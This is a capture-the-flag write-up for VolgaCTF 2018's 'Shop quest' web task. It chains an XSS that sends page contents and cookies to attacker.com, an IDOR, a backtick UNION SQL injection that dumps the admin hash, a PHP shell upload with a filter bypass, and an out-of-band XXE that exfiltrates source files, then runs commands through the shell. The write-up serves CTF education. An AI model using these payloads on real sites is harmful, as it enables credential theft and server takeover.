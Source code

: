 # Shop quest
Category: Web Points: 500 Solves: 0 Description:

For this task, teams could get 500 points, it consisted of several stages that led to the execution of the code. 
Unfortunately, because of the heavy workload, the task sometimes worked slowly, but it was still possible to solve it. 
Nobody received the flag, although some teams went through 2 stages out of three and almost reached the goal. 
I hope that to solve it in any case was interesting and glad that many attempted to get the flag.

## Stage 1 - Client side
Firstly, we can see a main page. In the browser console, we can see the name of the Vue.js framework used to chat with the operator.
Secondly, in source code we can see injection point, there is the customer name, which is specified at registration.

![XSS in name parameter](screenshots/xss_stage.png "XSS in name")

This XXS will work on the operator page. 
Final attack vector for stealing Operator info:
```
${toString.constructor('var http=new XMLHttpRequest();http.open("POST","http://attacker.com/?bot", true);http.setRequestHeader("Content-type","application/x-www-form-urlencoded");http.send("res="+btoa(unescape(encodeURIComponent(document.body.innerHTML))));')()}
```
On *attacker.com* we can see the page where the operator is located reading our message.
Decode this page and find operator's password:

*Change your default password: Floise_default_@@@f*

But, you can ask: "Where can I find the login? Login "Operator" doesn't work!"
Ok) We can see non http only cookie - *userId*. This is IDOR. We can steal operator's cookie and make request to the server with it.

```${toString.constructor('document.location = "http://attacker.com/?"+document.cookie')()}```

![IDOR in userId](screenshots/IDOR.png "IDOR exploitation")

Login as Operator:

login: Mark_323212

Password: Floise_default_@@@f

## Stage 2 - SQL Injection

![Operator's page](screenshots/Operators_page.png "Operator's page")

Here we can see operator's page. The operator has three additional methods:

+ GET /Chat/getMessages?chatId=1
+ GET /Operator/chat?chatId=1
+ POST /Chat/sendToClient

After a few minutes of fuzzing we can see that the first one may response with 500 status code.
Unfortunately, automatic scanners will not give anything here. We need professional pentester's skills!

+ /Chat/getMessages?chatId=1'--+-
+ /Chat/getMessages?chatId=1"--+-
+ /Chat/getMessages?chatId=1`--+-

WoW! The third one retrieve status code 200! So, there is injection in chat table name.

```SELECT * FROM `chat_<chatId>````

This is UNION based injection and we can see output. 
After a difficult dumping of the database structure, we find out the login and password hash of the admin.

Query:
```
http://shop-quest.quals.2018.volgactf.ru/Chat/getMessages?chatId=1`+union+select+login,hash,role,4+from+users+where+role=3--+-
```

Answer:
```
{"status":"ok","messages":[{"id":"1","text":"Hi. man","is_operator":0,"time":"11:02 PM"},{"id":"2","text":"May the Force be with you","is_operator":1,"time":"11:02 PM"},{"id":"3","text":"sdfsdf","is_operator":1,"time":"11:06 PM"},{"id":"Bibant","text":"3730a48f24ed9610f1ba7d4e6618f36135be1417755c3b9b2abc0c46e0803a8c","is_operator":3,"time":"4"}]}
```

*Bibant / 3730a48f24ed9610f1ba7d4e6618f36135be1417755c3b9b2abc0c46e0803a8c*

Hash is sha256. The first thing that comes to mind is the online brute password. It's success.

Login as Admin:

login: Bibant

Password: insaneclownposse

## Stage 3 - RCE

This stage is final and allows uploading php shell. There is simple extension filter in uploads, words *php* and *htm* are replaced by empty string.

We have simple bypass like: *shell.pphphp*

When we upload a file, we obtain the generated random name for it. 

![Shell ulpoad](screenshots/upload_shell.png "Shell ulpoad")

But where is our shell? Let's read source code of site. We have the ability to save product info in XML format. Maybe XXE? YES!

However, even if the file is valid, the error is returned, that the functionality does not work yet.

*{"status":"error","message":"Table `goods` doesn't exist"}*

Let's try OOB XXE, and read index.php. Maybe it exists on the server. Send this payload:
```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://attacker.com/oob.xml">
%sp;
%param1;
]>
<r>&exfil;</r>
```

oob.xml
```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=index.php">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://attacker.com/?%data;'>">
```

We received index.php and than we have to read several files to find the file download code:
```
require_once 'utils/Core.php';
```

*utils/Core.php*
```
foreach ( glob( $_SERVER['DOCUMENT_ROOT'] . '/controllers/*Controller.php' ) as $filename ) {
```

*controllers/AdminController.php*
```
require_once 'utils/Uploader.php';
```

Finally, file is uploaded to:
```
/uploads_FjsyFkf/md5(user_login . asdasHF$&@(F&@)AF)JFN)/
```

user_login = Bibant, and we can finally find the flag:

*Find flag:*
```
http://shop-quest.quals.2018.volgactf.ru/uploads_FjsyFkf/a616589f9ab86eb8f51060dc6da4f545/ZoSkHTE.php?c=find / -name flag*
```

*Read flag:*
```
http://shop-quest.quals.2018.volgactf.ru/uploads_FjsyFkf/a616589f9ab86eb8f51060dc6da4f545/ZoSkHTE.php?c=cat /home/flag*
```

Flag is: VolgaCTF{30ff764e5e70f8df3d3f6944c12d0f1a}

P.S. If you have read to the end, you are already a hero)




